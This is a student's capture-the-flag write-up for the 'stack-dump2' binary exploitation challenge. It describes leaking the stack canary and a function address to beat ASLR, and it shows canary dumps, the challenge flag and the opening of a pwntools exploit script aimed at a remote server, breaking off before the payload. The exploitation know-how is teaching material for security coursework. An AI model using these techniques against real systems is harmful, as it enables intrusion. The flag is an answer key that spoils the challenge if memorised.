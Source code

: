 stack-dump2
=========================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNC1zdGFjay1kdW1wMiIsImlwIjoiMTQ0LjEzNi4yOC4zNiIsInNlc3Npb24iOiIwZWJhOThmOC1mYThkLTRiZGUtOTQ5Yi02OWZlZjllNmQ4NWEifQ.38UEY5YkykICIIkH7Q6vyuVwkIajhP9bqqq5nllJkWE}
General overview of problems faced
----------------------------------------------------------
Mostly similar to stack-dump, except now, I cannot use the fixed addrss of the win function. I need to leak a function address on the stack to calculate the base from the offsets.
Solution works locally at first, but not remotely. Checked ASLR, all addresses were randomised locally which is evidence I have aslr on I believe. Get stack smashing detected remotely.
After testing random changes, it seems the offset to get the stack canary acts strangely. Offset 21 works locally but not remotely. 105 works for both.
Function behaves differently compared to stack-dump.
When selecting a), no matter the len, any input including size that is less than len, it goes to menu immediately.
The script can acquire the canary using b). However, after investigation, selcting b) shows different contents at the same address eg
Script
 Canary: b'memory at 0xffbe4190: \x00\xee\x11Z\x00\x00\x00\x00\x00\x00\x00\x007\xe6^\xf7\x01\x00\x00\x004B\n'
Interactive
memory at 0xffbe4190: \x00\x11\x00\x00\x00\x007\xe6^\xf7\x00\x00B
*** Reminder to ask why the offset behaves strangely ***
Script/Command used
---------------------------------------------------------
```
from pwn import *
import sys
# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './stack-dump2' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 28004 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
```